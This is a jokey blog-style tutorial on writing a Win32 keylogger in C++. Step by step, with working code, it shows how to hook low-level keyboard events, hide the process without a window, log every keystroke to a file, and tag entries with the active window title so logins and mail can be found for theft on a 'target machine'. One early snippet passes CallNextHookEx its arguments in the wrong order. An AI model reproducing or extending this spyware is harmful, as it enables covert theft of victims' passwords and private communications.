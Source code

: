 /*
Title: Win32 Keylogging for The Common People
Description: Writing a Win32 keylogger in several simple steps. I don't know how many. I didn't count them. Shut up, I'm lazy.
Author: tracer
Date: 2015/05/10
*/

Man, I bet making a key-logger is hard. It probably involves assembler and Win32 API witchcraft and sacrificing chickens and shit. Special candles made from rendered baby-fat and arranged in arcane geometries.

Nope. Turns out the Win32 API gives you a load of functions to do this out of the box.

## SetWindowsHookEx

The [SetWindowsHookEx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx) function allows us to specify a callback function on common system events. There are several you can snag, but we're interested in WH_KEYBOARD_LL - Low-level keyboard events. If we set up a hook for WH_KEYBOARD_LL events then our callback will get hit every time a key event happens. For greater details see the MSDN page for [LowLevelKeyboardProc](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644985%28v=vs.85%29.aspx).

As stated in tbe documentation, We also need a message pump for this to work, but we don't want the hassle of window. And that's fine - we can create our message pump manually. This means we'll still be a fully functioning Win32 application, but you'll have to look at the task manager or similar tool to see that our process is actually running. A handy fringe benefit.

With that in mind, here's the guts of the operation.

```cpp
LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    // DO MAGICAL THINGS HERE

    return ::CallNextHookEx(nullptr, code, lParam, wParam);
}

int WINAPI WinMain(
    HINSTANCE instance, 
    HINSTANCE prevInstance,
    LPSTR commandLine,
    int show
)
{
    HHOOK hookHandle = ::SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardHook, nullptr, 0);

    MSG message;
    while (::GetMessage(&message, nullptr, 0, 0) > 0)
    {
        if (message.message == WM_QUIT)
            break;

        ::TranslateMessage(&message);
        ::DispatchMessage(&message);
    }

    ::UnhookWindowsHookEx(hookHandle);

    return 0;
}
```

## Making it do something

So now we're getting our function called every time a key is pressed. Happy days. But our callback doesn't do anything yet. Let's take that keypress and put it into a file or, uh, safe keeping. Our callback now looks like this:

```cpp
wofstream dump;
HKL keyboardLayout;

void GetActualKeyboardState(unsigned char *keyboardState)
{
    for (int i = 0; i < 256; ++i)
        keyboardState[i] = static_cast<unsigned char>(::GetKeyState(i));
}

LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    if (code == HC_ACTION && (wParam == WM_KEYDOWN))
    {
        LPKBDLLHOOKSTRUCT data = reinterpret_cast<LPKBDLLHOOKSTRUCT>(lParam);

        unsigned char keyboardState[256];
        GetActualKeyboardState(keyboardState);

        wchar_t buffer[16];
        memset(buffer, 0, sizeof(buffer));

        int result = ::ToUnicodeEx(data->vkCode, data->scanCode, keyboardState, buffer, 16, 0, keyboardLayout);
        if (result > 0)
        {
            dump << buffer;
            dump.flush();
        }
    }

    return ::CallNextHookEx(nullptr, code, wParam, lParam);
}
```

You'll notice we've got another function (GetActualKeyboardState) to get the current state of the keyboard. We can't use the usual Win32 function GetKeyboardState here - it simply doesn't work. I suspect it's using GetAsyncKeyState internally, because that doesn't work inside low-level keyboard hooks since the hook is fired before the async keyboard state is updated. I promise I'm not making this complicated just for the fun of it.

Additionally we have two global variables - keyboardLayout and dump. Both of these are set up in our WinMain function. I've not gone into the details of either, but it's not really needed. Either check the source code in the Github link at the end of this article, or just look it up. It's pretty straight-forward and there's no real mystery there.

## Next steps

Welp, now we're logging all of the keypresses that happen on our target machine. Which is great. It's *great*. But it's not that useful. Our output file is just a jumble of characters, with no way of knowing which ones are relevant and which are just the cat walking on the keyboard.

So the next change we're going to make to the system is to add some more structure to our dump file. The first change is basic, but important: we're going to keep track of the current window title. This means we can do a search in the output file for keywords like "login" or "mail", and have a better chance of finding something worth stealing. **Borrowing**. I meant borrowing. 

Here's our updated callback.

```cpp
LRESULT CALLBACK KeyboardHook(int code, WPARAM wParam, LPARAM lParam)
{
    static wstring currentTitle;

    if (code == HC_ACTION && (wParam == WM_KEYDOWN))
    {
        HWND currentWindow = GetForegroundWindow();
        wchar_t title[512];
        GetWindowText(currentWindow, title, 512);
        wstring newTitle = wstring(title);

        if (newTitle != currentTitle)
        {
            dump << endl << L"----------------------------" << endl;
            dump << L"Active window: " << newTitle.c_str() << endl;
            currentTitle = newTitle;
        }

        LPKBDLLHOOKSTRUCT data = reinterpret_cast<LPKBDLLHOOKSTRUCT>(lParam);

        unsigned char keyboardState[256];
        GetActualKeyboardState(keyboardState);

        wchar_t buffer[16];
        memset(buffer, 0, sizeof(buffer));

        int result = ::ToUnicodeEx(data->vkCode, data->scanCode, keyboardState, buffer, 16, 0, keyboardLayout);
        if (result > 0)
        {
            dump << buffer;
            dump.flush();
        }
    }

    return ::CallNextHookEx(nullptr, code, wParam, lParam);
}
```

It's still fairly uncomplicated, but that's the idea. There are a few things can still thwart you. The big one is form autocompletion. But it's cool. We've got a plan B . . . *in the next episode*. The next is that windows running in an admin context won't be passed to our hook is it's running in user mode, which is likely is. Just stuff to bear in mind.

## Wrap it up, nerd. I have things to do

K.

Win32 keylogging is easy. That's how you do it.

You can find a more fully-fledged implementation on [Github](https://github.com/tracer-sec/shoulder_surfer). But "fully-fledged" is a bit of a misnomer. The extra bits are mostly glue.

If you have any comments then please post on the mailing list, or let us know on IRC!

